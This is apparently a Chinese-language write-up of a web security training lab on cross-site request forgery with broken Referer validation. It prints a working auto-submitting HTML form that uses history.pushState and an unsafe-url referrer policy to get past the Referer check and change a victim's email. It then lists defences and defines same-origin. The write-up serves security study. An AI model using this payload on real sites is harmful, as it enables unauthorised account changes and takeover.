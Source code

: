 

### Lab: CSRF with broken Referer validation

history：https://developer.mozilla.org/

history.pushState()：

https://developer.mozilla.org/zh-CN/docs/Web/API/History/pushState

referrer-policy：https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Headers/Referrer-Policy

改题目的关键是后端在检验referrer时，只是简单的判断referer字段里面是否包含本源（域）名，所以这里可以使用history.puseState()进行绕过。

```
Referrer-Policy: unsafe-url
```



```html
<html>
  <body>
  <script>history.pushState('', '', '/?https://0a5600b604f8f3b28129855200900015.web-security-academy.net')</script>
    <form action="https://0a5600b604f8f3b28129855200900015.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="11&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```



### 防护

1、同源检测；

2、samesite cookie；https://www.ruanyifeng.com/blog/2019/09/cookie-samesite.html

3、csrf token；

4、referer；

5、httpOnly，secure（用在https中）；



# 源（origin）

Web 内容的**源**由用于访问它的 [URL](https://developer.mozilla.org/zh-CN/docs/Glossary/URL) 的*方案*（协议）、*主机名*（域名）和*端口*定义。只有当协议、主机和端口都匹配时，两个对象才具有相同的源。

某些操作仅限于同源内容，但可以使用 [CORS](https://developer.mozilla.org/zh-CN/docs/Glossary/CORS) 解除这个限制。
